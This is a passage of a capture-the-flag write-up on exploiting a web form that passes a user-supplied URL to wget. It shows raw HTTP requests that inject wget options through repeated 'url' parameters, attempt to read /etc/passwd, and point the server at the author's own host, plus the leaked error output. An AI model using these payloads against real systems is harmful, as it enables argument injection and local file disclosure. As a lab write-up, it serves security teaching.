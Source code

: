 It was using the URL I provided and passing it to `wget`. I tried a few command injections (;, \|, \`, $(), ...) but `execFile` was preventing it.

## Parameter Injection

The only part of the command I controlled was the URL. I tried to pass the URL parameter multiple times to see if I could provide multiple parameters to the command. It worked! I was able to quickly validate it because on the first day of the CTF, sending a request to my server failed because it was not able to connect to a proxy. I added to `--no-proxy` to the command and requests started to reach my server.

```http
POST / HTTP/1.1
Host: brocaarea.ctf
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://brocaarea.ctf
Connection: keep-alive
Referer: http://brocaarea.ctf/
Upgrade-Insecure-Requests: 1

url=--no-proxy&url=http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/
```

## Errors

I tried reading local files with `wget`.

```http
POST / HTTP/1.1
Host: brocaarea.ctf
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://brocaarea.ctf
Connection: keep-alive
Referer: http://brocaarea.ctf/
Upgrade-Insecure-Requests: 1

url=file:///etc/passwd&url=http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/
```

It did not work, but it displayed more information when there was an error.

```http
HTTP/1.1 500 Internal Server Error
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 18 May 2024 14:14:38 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 3155
Connection: keep-alive

Error: Command failed: /usr/bin/wget --no-cookies --timeout=120 --tries=3 --no-check-certificate -r -P /var/www/nginx/static/tmp file:///etc/passwd http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/
file:///etc/passwd: Unsupported scheme ‘file’.
--2024-05-18 14:14:38-- http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/
Connecting to [9000:6666:6666:6666:216:3eff:feb1:8d80]:8080... connected.
HTTP request sent, awaiting response... 200 OK
```